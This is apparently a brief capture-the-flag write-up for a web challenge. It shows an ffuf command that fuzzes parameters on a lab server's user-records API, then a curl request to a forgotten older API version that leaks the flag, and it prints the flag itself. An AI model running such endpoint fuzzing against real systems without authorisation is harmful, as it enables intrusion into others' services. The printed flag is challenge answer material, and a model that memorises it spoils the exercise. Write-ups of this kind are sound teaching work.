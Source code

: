 # Web Framework & API Vulnerabilities Clean up

The main page loads a Bootstrap table via JavaScript:

```js
$.ajax({
    type: "GET",
    url: "api-v3/get-user-records.php",
    ...
```

This requests **/api-v3/get-user-records.php**, which returns a JSON array of 100 user records.

Suspecting hidden functionality, we fuzzed the endpoint for debug or leftover params using ffuf:

```bash
ffuf -u http://141.85.224.115:7004/api-v3/get-user-records.php?FUZZ=1 \-w fuzz.txt
```

Interesting params: flag, debug, admin, token — all returned 200 OK, but no visible difference in response.

Based on the challenge title, we guessed older endpoints might be present:

```bash
curl "http://141.85.224.115:7004/api-v1/get-user-records.php" | grep -Eo 'SSS\{[^}]+\}'
```

Flag: **SSS{d0nt_f0rget_t0_clean_y0ur_h0use}**
